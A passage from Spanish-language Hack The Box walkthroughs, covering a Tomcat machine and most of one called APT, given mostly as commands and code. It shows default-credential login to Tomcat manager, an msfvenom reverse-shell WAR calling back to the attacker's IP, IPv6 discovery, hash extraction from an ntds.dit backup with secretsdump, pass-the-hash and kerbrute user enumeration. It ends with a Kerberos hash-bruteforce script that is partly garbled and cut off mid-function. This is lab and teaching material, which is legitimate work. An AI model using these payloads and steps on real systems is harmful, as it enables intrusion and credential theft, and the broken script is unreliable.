\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.95}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-55}{%
\subsubsection*{Nmap}\label{nmap-55}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.95}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p8080 10.10.10.95 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
8080 & http & Web Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-35}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-35}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{http-enum-10}{%
\subsubsection*{Http Enum}\label{http-enum-10}}
\addcontentsline{toc}{subsubsection}{Http Enum}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enub -p8080 10.10.10.95 -oN webScan}
\end{Highlighting}
\end{Shaded}

\hypertarget{vulnerability-assessment-42}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-42}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{checkear-la-web-19}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-19}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Vemos la pagina por defecto de Tomcat. Vamos en la url \texttt{http://10.10.10.95:8080/manager/html}, Intentamos credenciales por defecto:

\begin{itemize}
\tightlist
\item
  admin:admin
\item
  tomcat:tomcat
\item
  tomcat:s3cret
\end{itemize}

Ya hemos ganado acceso al panel de manager.

\hypertarget{vuln-exploit-gaining-access-42}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-42}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{war-malicioso-para-tomcat}{%
\subsection*{War malicioso para tomcat}\label{war-malicioso-para-tomcat}}
\addcontentsline{toc}{subsection}{War malicioso para tomcat}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msfvenom}\NormalTok{ -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f war -o shell.war}
\end{Highlighting}
\end{Shaded}

Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}

Subimos el war a la web de manager y ya ganamos accesso a la maquina victima. A demas ya estamos como \texttt{nt\ authority\textbackslash{}system}

\hypertarget{apt}{%
\chapter*{APT}\label{apt}}
\addcontentsline{toc}{chapter}{APT}

\hypertarget{introduccion-56}{%
\section*{Introduccion}\label{introduccion-56}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama APT.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=VxE1cfvXjA0}{\includegraphics{https://img.youtube.com/vi/VxE1cfvXjA0/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-56}{%
\section*{Enumeracion}\label{enumeracion-56}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-56}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-56}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-56}{%
\subsubsection*{Ping}\label{ping-56}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.213}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-56}{%
\subsubsection*{Nmap}\label{nmap-56}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.213}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.213 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,135 10.10.10.213 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web Fuzzing &\tabularnewline
135 & msrpc & &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-36}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-36}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-42}{%
\subsubsection*{Whatweb}\label{whatweb-42}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.213}
\end{Highlighting}
\end{Shaded}

Es un IIS 10.0 y poco mas.

\hypertarget{checkear-la-web-20}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-20}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.213}, vemos una web que habla de un hosting.

\hypertarget{fuzzing-1}{%
\subsubsection*{Fuzzing}\label{fuzzing-1}}
\addcontentsline{toc}{subsubsection}{Fuzzing}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p80 10.10.10.213 -oN webScan}
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.213/FUZZ}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzando-el-puerto-135}{%
\subsection{Analyzando el puerto 135}\label{analyzando-el-puerto-135}}

Buscando con firefox \texttt{port\ 135\ msrpc\ pentesting} vemos un articulo en la web de \href{https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc}{hacktricks}.
Aqui podemos ver que hay una posibilidad de abusar del methodo \textbf{ServerAlive2} con una heramienta llamada \href{https://github.com/mubix/IOXIDResolver}{IOXIDResolver}.

\hypertarget{vulnerability-assessment-43}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-43}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{abusando-del-methodo-serveralive2}{%
\subsection*{Abusando del methodo ServerAlive2}\label{abusando-del-methodo-serveralive2}}
\addcontentsline{toc}{subsection}{Abusando del methodo ServerAlive2}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/mubix/IOXIDResolver}
\BuiltInTok{cd}\NormalTok{ IOXIDResolver}
\ExtensionTok{pip3}\NormalTok{ install -r requirements.txt}
\ExtensionTok{python3}\NormalTok{ IOXIDResolver.py -t 10.10.10.213}
\end{Highlighting}
\end{Shaded}

En este caso, el abuso del methodo nos muestra la ipv6 de la maquina victima. Lo verificamos con un ping

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ping6}\NormalTok{ dead:beef::b885:d62a:d679:573f}
\end{Highlighting}
\end{Shaded}

Aqui vemos que la maquina nos responde.

\hypertarget{buscamos-mas-puertos-con-ipv6}{%
\subsection*{Buscamos mas puertos con IPV6}\label{buscamos-mas-puertos-con-ipv6}}
\addcontentsline{toc}{subsection}{Buscamos mas puertos con IPV6}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS --min-rate 5000 --open -vvv -n -Pn -6 dead:beef::b885:d62a:d679:573f -oG allPortsipv6}
\ExtensionTok{extractPorts}\NormalTok{ allPortsipv6}
\FunctionTok{nmap}\NormalTok{ -sCV -p53,80,88,135,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,29685,49693 -6 dead:beef::b885:d62a:d679:573f -oN targetedipv6}
\end{Highlighting}
\end{Shaded}

Aqui vemos un monton de puertos que no vamos a explicar porque ya lo hemos contemplado varias veces. Pero mirando los mas importantes vemos:

\begin{itemize}
\tightlist
\item
  el puerto 135 (smb) esta abierto
\item
  el 88 (kerberos)
\item
  el 389 (ldap)
\item
  el 5985 (WinRM)
\end{itemize}

y con esto ya sabemos que estamos frente a un Domain Controller.

\hypertarget{usando-las-heramientas-basicas-con-ipv6}{%
\subsection*{Usando las heramientas basicas con IPV6}\label{usando-las-heramientas-basicas-con-ipv6}}
\addcontentsline{toc}{subsection}{Usando las heramientas basicas con IPV6}

\hypertarget{crackmapexec}{%
\subsubsection*{CrackMapExec}\label{crackmapexec}}
\addcontentsline{toc}{subsubsection}{CrackMapExec}

Aqui vamos a por \textbf{crackMapExec}. La version que utiliza S4vitaar es la \emph{5.1.1 dev} que no permite usar IPV6 y tiene que subir a la version \emph{5.1.7 dev}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pushd}\NormalTok{ /opt}
\ExtensionTok{curl}\NormalTok{ -sSL https://raw.githubusercontent.com/python-poetry/poetry/master/get-poetry.py }\KeywordTok{|} \ExtensionTok{python}\NormalTok{ -}
\ExtensionTok{apt-get}\NormalTok{ install -y libssl-dev libffi-dev python-dev build-essential}
\FunctionTok{git}\NormalTok{ clone --recursive https://github.com/byt3bl33d3r/CrackMapExec}
\BuiltInTok{cd}\NormalTok{ CrackMapExec}
\ExtensionTok{poetry}\NormalTok{ install}
\ExtensionTok{poetry}\NormalTok{ run crackMapExec smb dead:beef::b885:d62a:d679:573f}
\end{Highlighting}
\end{Shaded}

Vemos que la maquina se llama apt y que el dominio es htb.local. Añadimos los dos en el \texttt{/etc/hosts}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{dead}\NormalTok{:beef::b885:d62a:d679:573f  apt htb.local}
\end{Highlighting}
\end{Shaded}

\hypertarget{crackmapexec-via-alternativa}{%
\subsubsection*{CrackMapExec via alternativa}\label{crackmapexec-via-alternativa}}
\addcontentsline{toc}{subsubsection}{CrackMapExec via alternativa}

Una via alternativa seria redirigir el flujo de nuestro puerto 445 local hacia el puerto 445 de la maquina victima con \textbf{socat}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  redirigimos el puerto 445

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{socat}\NormalTok{ TCP-LISTEN:445,fork TCP:apt:445}
\end{Highlighting}
\end{Shaded}
\item
  uzamos la version mas antigua de crackmap exec a nuestra maquina local

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb localhost}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{smbclient}{%
\subsubsection*{SmbClient}\label{smbclient}}
\addcontentsline{toc}{subsubsection}{SmbClient}

Miramos los recursos compartidos a nivel de red con \textbf{smbclient}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ -L dead:beef::b885:d62a:d679:573f -N}
\end{Highlighting}
\end{Shaded}

Vemos un directorio backup. Miramos si nos podemos connectar.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{smbclient}\NormalTok{ //dead:beef::b885:d62a:d679:573f/backup -N}
\FunctionTok{dir}
\ExtensionTok{get}\NormalTok{ backup.zip}
\end{Highlighting}
\end{Shaded}

Aqui hay un backup.zip y lo descargamos a nuestro equipo de atacante. Si intentamos unzipear el archivo vemos que esta protegido por contraseña.

\hypertarget{crackeando-la-contraseuxf1a-con-fcrackzip}{%
\subsection*{Crackeando la contraseña con fcrackzip}\label{crackeando-la-contraseuxf1a-con-fcrackzip}}
\addcontentsline{toc}{subsection}{Crackeando la contraseña con fcrackzip}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{fcrackzip}\NormalTok{ -b -D -u -p /usr/share/wordlists/rockyou.txt backup.zip}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver la contraseña.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{unzip}\NormalTok{ backup.zip}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver que tenemos un \textbf{ntds.dit} y un \textbf{SYSTEM}. Esto quiere decir que podemos jugar con \textbf{SecretsDump}

\hypertarget{secretsdump}{%
\subsection*{SecretsDump}\label{secretsdump}}
\addcontentsline{toc}{subsection}{SecretsDump}

Teniendo un ntds.dit y un SYSTEM, podemos pillar los hashes NTLMv2 de los usuarios del Directorio Activo. Como lo hacemos desde nuestra
maquina local, tenemos que ponerle un \textbf{LOCAL} al final.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-secretsdump}\NormalTok{ -ntds Active\textbackslash{} Directory/ntds.dit -system registry/SYSTEM LOCAL}
\end{Highlighting}
\end{Shaded}

Aqui recuperamos un monton de informacion. Vamos a tratar de recojer unicamente la informacion que nos interesa. Vemos que todo los usuarios tienen un
hash \textbf{aad3b435b51404eeaad3b435b51404ee}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-secretsdump}\NormalTok{ -ntds Active\textbackslash{} Directory/ntds.dit -system registry/SYSTEM LOCAL }\KeywordTok{|} \FunctionTok{grep} \StringTok{"aad3b435b51404eeaad3b435b51404ee"} \OperatorTok{>}\NormalTok{ data}
\end{Highlighting}
\end{Shaded}

Intentamos un pass the hash con el usuario Administrator

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pushd}\NormalTok{ /opt/CrackMapExec}
\ExtensionTok{poetry}\NormalTok{ run crackmapexec smb dead:beef::b885:d62a:d679:573f -u }\StringTok{'Administrator'}\NormalTok{ -H }\StringTok{'2b576acbe6bcfda7294d6bd18041b8fe'}
\end{Highlighting}
\end{Shaded}

Vemos que no podemos hacer pass the hash a todos los usuarios, Tenemos que recuperar un listado de usuarios validos.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un fichero de usuarios

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $1\}'}\NormalTok{ FS=}\StringTok{":"} \KeywordTok{|} \FunctionTok{wc}\NormalTok{ -l}
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $1\}'}\NormalTok{ FS=}\StringTok{":"} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u }\KeywordTok{|} \FunctionTok{wc}\NormalTok{ -l}
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $1\}'}\NormalTok{ FS=}\StringTok{":"} \OperatorTok{>}\NormalTok{ users}
\end{Highlighting}
\end{Shaded}
\item
  creamos un fichero de hashes NT

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ data }\KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $4\}'}\NormalTok{ FS=}\StringTok{":"} \OperatorTok{>}\NormalTok{ hash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Aqui vamos a intentar bruteforcear los usuarios con kerbrute.

\hypertarget{kerbrute-2}{%
\subsection*{Kerbrute}\label{kerbrute-2}}
\addcontentsline{toc}{subsection}{Kerbrute}

Aqui vamos a tirar del \textbf{kerbrute} para tratar de brueforcear el Kerberos para conocer los usuarios validos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/ropnop/kerbrute}
\BuiltInTok{cd}\NormalTok{ kerbrute}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ kerbrute}
\end{Highlighting}
\end{Shaded}

Ya podemos enumerar los usuarios

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./kerbrute}\NormalTok{ userenum --dc apt -d htb.local ../users}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay un usuario \textbf{\href{mailto:henry.vinson@htb.local}{\nolinkurl{henry.vinson@htb.local}}} que es valido.

Si intentamos un pass the hash con este usuario

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pushd}\NormalTok{ /opt/CrackMapExec}
\ExtensionTok{poetry}\NormalTok{ run crackmapexec smb dead:beef::b885:d62a:d679:573f -u }\StringTok{'henry.vinson'}\NormalTok{ -H }\StringTok{'2de80758521541d19cabbba480b260e8f'}
\end{Highlighting}
\end{Shaded}

Vemos que el hash no es valido. Aqui intentamos ver si el hash de este usuario esta en la lista de los hashes pero como kerbrute o otra heramientas
como pyKerbrute no nos permiten hacer un bruteforce de hashes, nos creamos nuestro proprio script en python

\begin{quote}
{[} ! {]} NOTAS: podriamos intentar bruteforcear hashes con smb con el comando \texttt{poetry\ run\ crackmapexec\ smb\ dead:beef::b885:d62a:d679:573f\ -u\ \textquotesingle{}henry.vinson\textquotesingle{}\ -H\ /home/s4vitar/Desktop/APT/content/hash} pero
se bloquea a partir de unos cuantos hash (seguridad de smb).
\end{quote}

\hypertarget{script-de-bruteforce-de-hashes}{%
\subsection*{Script de bruteforce de hashes}\label{script-de-bruteforce-de-hashes}}
\addcontentsline{toc}{subsection}{Script de bruteforce de hashes}

Aqui en vez de crear nuestro script desde zero, uzamos el script en python de \href{https://github.com/3gstudent/pyKerbrute}{pyKerbrute} y la modificamos
El script que nos interessa es el ADPwdSpray.py.

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python}
\ImportTok{import}\NormalTok{ sys, os}
\ImportTok{import}\NormalTok{ socket, signal}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\ImportTok{from}\NormalTok{ random }\ImportTok{import}\NormalTok{ getrandbits}
\ImportTok{from}\NormalTok{ time }\ImportTok{import}\NormalTok{ time, localtime, strftime}
\ImportTok{from}\NormalTok{ pyasn1.}\BuiltInTok{type}\NormalTok{.univ }\ImportTok{import}\NormalTok{ Integer, Sequence, SequenceOf, OctetString, BitString, Boolean}
\ImportTok{from}\NormalTok{ pyasn1.}\BuiltInTok{type}\NormalTok{.char }\ImportTok{import}\NormalTok{ GeneralString}
\ImportTok{from}\NormalTok{ pyasn1.}\BuiltInTok{type}\NormalTok{.useful }\ImportTok{import}\NormalTok{ GeneralizedTime}
\ImportTok{from}\NormalTok{ pyasn1.}\BuiltInTok{type}\NormalTok{.tag }\ImportTok{import}\NormalTok{ Tag, tagClassContext, tagClassApplication, tagFormatSimple}
\ImportTok{from}\NormalTok{ pyasn1.codec.der.encoder }\ImportTok{import}\NormalTok{ encode}
\ImportTok{from}\NormalTok{ struct }\ImportTok{import}\NormalTok{ pack, upack}
\ImportTok{from}\NormalTok{ pyasn1.}\BuiltInTok{type}\NormalTok{.namedtype }\ImportTok{import}\NormalTok{ NamedTypes, NamedType, OptionalNamedType}
\ImportTok{from}\NormalTok{ _crypto }\ImportTok{import}\NormalTok{ ARC4, MD5, MD4}
\ImportTok{from}\NormalTok{ time }\ImportTok{import}\NormalTok{ time, gmtime, strftime, strptime, localtime}
\ImportTok{import}\NormalTok{ hmac }\ImportTok{as}\NormalTok{ HMAC}
\ImportTok{from}\NormalTok{ random }\ImportTok{import}\NormalTok{ getrandbits, sample}

\NormalTok{RC4_HMAC }\OperatorTok{=} \DecValTok{23}
\NormalTok{NT_PRINCIPAL }\OperatorTok{=} \DecValTok{1}
\NormalTok{NT_SRV_INST }\OperatorTok{=} \DecValTok{2}

\KeywordTok{def}\NormalTok{ def_handler(sig, frame):}
    \BuiltInTok{print}\NormalTok{(}\StringTok{"}\CharTok{\textbackslash{}n\textbackslash{}n}\StringTok{[!] Saliendo...}\CharTok{\textbackslash{}n}\StringTok{"}\NormalTok{)aad3b435b51404eeaad3b435b51404ee}
\NormalTok{    sys.exit(}\DecValTok{1}\NormalTok{)}

\CommentTok{#Ctrl+C}
\NormalTok{signal.signal(signal.SIGINT, def_handler)}

\KeywordTok{def}\NormalTok{ random_bytes(n):}
    \ControlFlowTok{return} \StringTok{''}\NormalTok{.join(}\BuiltInTok{chr}\NormalTok{(c) }\ControlFlowTok{for}\NormalTok{ c }\KeywordTok{in}\NormalTok{ sample(}\BuiltInTok{xrange}\NormalTok{(}\DecValTok{256}\NormalTok{), n))}

\KeywordTok{def}\NormalTok{ encrypt(etype, key, msg_type, data):}
    \ControlFlowTok{if}\NormalTok{ etype }\OperatorTok{!=}\NormalTok{ RC4_HMAC:}
        \ControlFlowTok{raise} \PreprocessorTok{NotImplementedError}\NormalTok{(}\StringTok{'Only RC4-HMAC supported!'}\NormalTok{)}
\NormalTok{    k1 }\OperatorTok{=}\NormalTok{ HMAC.new(key, pack(}\StringTok{'<I'}\NormalTok{, msg_type)).digest()}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ random_bytes(}\DecValTok{8}\NormalTok{) }\OperatorTok{+}\NormalTok{ data}
\NormalTok{    chksum }\OperatorTok{=}\NormalTok{ HMAC.new(k1, data).digest()}
\NormalTok{    k3 }\OperatorTok{=}\NormalTok{ HMAC.new(k1, chksum).digest()}
    \ControlFlowTok{return}\NormalTok{ chksum }\OperatorTok{+}\NormalTok{ ARC4.new(k3).encrypt(data)}

\KeywordTok{def}\NormalTok{ epoch2gt(epoch}\OperatorTok{=}\VariableTok{None}\NormalTok{, microseconds}\OperatorTok{=}\VariableTok{False}\NormalTok{):}
    \ControlFlowTok{if}\NormalTok{ epoch }\KeywordTok{is} \VariableTok{None}\NormalTok{:}
\NormalTok{        epoch }\OperatorTok{=}\NormalTok{ time()}
\NormalTok{    gt }\OperatorTok{=}\NormalTok{ strftime(}\StringTok{'%Y%m}\SpecialCharTok{%d}\StringTok{%H%M%SZ'}\NormalTok{, gmtime(epoch))}
    \ControlFlowTok{if}\NormalTok{ microseconds:}
\NormalTok{        ms }\OperatorTok{=} \BuiltInTok{int}\NormalTok{(epoch }\OperatorTok{*} \DecValTok{1000000}\NormalTok{) }\OperatorTok{%} \DecValTok{1000000}
        \ControlFlowTok{return}\NormalTok{ (gt, ms)}
    \ControlFlowTok{return}\NormalTok{ gt}



\KeywordTok{def}\NormalTok{ ntlm_hash(pwd):}
    \ControlFlowTok{return}\NormalTok{ MD4.new(pwd.encode(}\StringTok{'utf-16le'}\NormalTok{))}

\KeywordTok{def}\NormalTok{ _c(n, t):}
    \ControlFlowTok{return}\NormalTok{ t.clone(tagSet}\OperatorTok{=}\NormalTok{t.tagSet }\OperatorTok{+}\NormalTok{ Tag(tagClassContext, tagFormatSimple, n))}

\KeywordTok{def}\NormalTok{ _v(n, t):}
    \ControlFlowTok{return}\NormalTok{ t.clone(tagSet}\OperatorTok{=}\NormalTok{t.tagSet }\OperatorTok{+}\NormalTok{ Tag(tagClassContext, tagFormatSimple, n), cloneValueFlag}\OperatorTok{=}\VariableTok{True}\NormalTok{)}


\KeywordTok{def}\NormalTok{ application(n):}
    \ControlFlowTok{return}\NormalTok{ Sequence.tagSet }\OperatorTok{+}\NormalTok{ Tag(tagClassApplication, tagFormatSimple, n)}

\KeywordTok{class}\NormalTok{ Microseconds(Integer): }\ControlFlowTok{pass}

\KeywordTok{class}\NormalTok{ KerberosString(GeneralString): }\ControlFlowTok{pass}

\KeywordTok{class}\NormalTok{ Realm(KerberosString): }\ControlFlowTok{pass}

\KeywordTok{class}\NormalTok{ PrincipalName(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'name-type'}\NormalTok{, _c(}\DecValTok{0}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'name-string'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, SequenceOf(componentType}\OperatorTok{=}\NormalTok{KerberosString()))))}

\KeywordTok{class}\NormalTok{ KerberosTime(GeneralizedTime): }\ControlFlowTok{pass}

\KeywordTok{class}\NormalTok{ HostAddress(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'addr-type'}\NormalTok{, _c(}\DecValTok{0}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'address'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, OctetString())))}

\KeywordTok{class}\NormalTok{ HostAddresses(SequenceOf):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ HostAddress()}


\KeywordTok{class}\NormalTok{ PAData(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'padata-type'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'padata-value'}\NormalTok{, _c(}\DecValTok{2}\NormalTok{, OctetString())))}

    
\KeywordTok{class}\NormalTok{ KerberosFlags(BitString): }\ControlFlowTok{pass}

\KeywordTok{class}\NormalTok{ EncryptedData(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'etype'}\NormalTok{, _c(}\DecValTok{0}\NormalTok{, Integer())),}
\NormalTok{        OptionalNamedType(}\StringTok{'kvno'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'cipher'}\NormalTok{, _c(}\DecValTok{2}\NormalTok{, OctetString())))}
    
\KeywordTok{class}\NormalTok{ PaEncTimestamp(EncryptedData): }\ControlFlowTok{pass}


\KeywordTok{class}\NormalTok{ Ticket(Sequence):}
\NormalTok{    tagSet }\OperatorTok{=}\NormalTok{ application(}\DecValTok{1}\NormalTok{)}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'tkt-vno'}\NormalTok{, _c(}\DecValTok{0}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'realm'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, Realm())),}
\NormalTok{        NamedType(}\StringTok{'sname'}\NormalTok{, _c(}\DecValTok{2}\NormalTok{, PrincipalName())),}
\NormalTok{        NamedType(}\StringTok{'enc-part'}\NormalTok{, _c(}\DecValTok{3}\NormalTok{, EncryptedData())))}
    
\KeywordTok{class}\NormalTok{ KDCOptions(KerberosFlags): }\ControlFlowTok{pass}

\KeywordTok{class}\NormalTok{ KdcReqBody(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'kdc-options'}\NormalTok{, _c(}\DecValTok{0}\NormalTok{, KDCOptions())),}
\NormalTok{        OptionalNamedType(}\StringTok{'cname'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, PrincipalName())),}
\NormalTok{        NamedType(}\StringTok{'realm'}\NormalTok{, _c(}\DecValTok{2}\NormalTok{, Realm())),}
\NormalTok{        OptionalNamedType(}\StringTok{'sname'}\NormalTok{, _c(}\DecValTok{3}\NormalTok{, PrincipalName())),}
\NormalTok{        OptionalNamedType(}\StringTok{'from'}\NormalTok{, _c(}\DecValTok{4}\NormalTok{, KerberosTime())),}
\NormalTok{        NamedType(}\StringTok{'till'}\NormalTok{, _c(}\DecValTok{5}\NormalTok{, KerberosTime())),}
\NormalTok{        OptionalNamedType(}\StringTok{'rtime'}\NormalTok{, _c(}\DecValTok{6}\NormalTok{, KerberosTime())),}
\NormalTok{        NamedType(}\StringTok{'nonce'}\NormalTok{, _c(}\DecValTok{7}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'etype'}\NormalTok{, _c(}\DecValTok{8}\NormalTok{, SequenceOf(componentType}\OperatorTok{=}\NormalTok{Integer()))))}

\KeywordTok{class}\NormalTok{ KdcReq(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'pvno'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'msg-type'}\NormalTok{, _c(}\DecValTok{2}\NormalTok{, Integer())),}
\NormalTok{        NamedType(}\StringTok{'padata'}\NormalTok{, _c(}\DecValTok{3}\NormalTok{, SequenceOf(componentType}\OperatorTok{=}\NormalTok{PAData()))),}
\NormalTok{        NamedType(}\StringTok{'req-body'}\NormalTok{, _c(}\DecValTok{4}\NormalTok{, KdcReqBody())))}

\KeywordTok{class}\NormalTok{ PaEncTsEnc(Sequence):}
\NormalTok{    componentType }\OperatorTok{=}\NormalTok{ NamedTypes(}
\NormalTok{        NamedType(}\StringTok{'patimestamp'}\NormalTok{, _c(}\DecValTok{0}\NormalTok{, KerberosTime())),}
\NormalTok{        NamedType(}\StringTok{'pausec'}\NormalTok{, _c(}\DecValTok{1}\NormalTok{, Microseconds())))}


\KeywordTok{class}\NormalTok{ AsReq(KdcReq):}
\NormalTok{    tagSet }\OperatorTok{=}\NormalTok{ application(}\DecValTok{10}\NormalTok{)}

\KeywordTok{def}\NormalTok{ build_req_body(realm, service, host, nonce, cname}\OperatorTok{=}\VariableTok{None}\NormalTok{):}
 
\NormalTok{    req_body }\OperatorTok{=}\NormalTok{ KdcReqBody()}

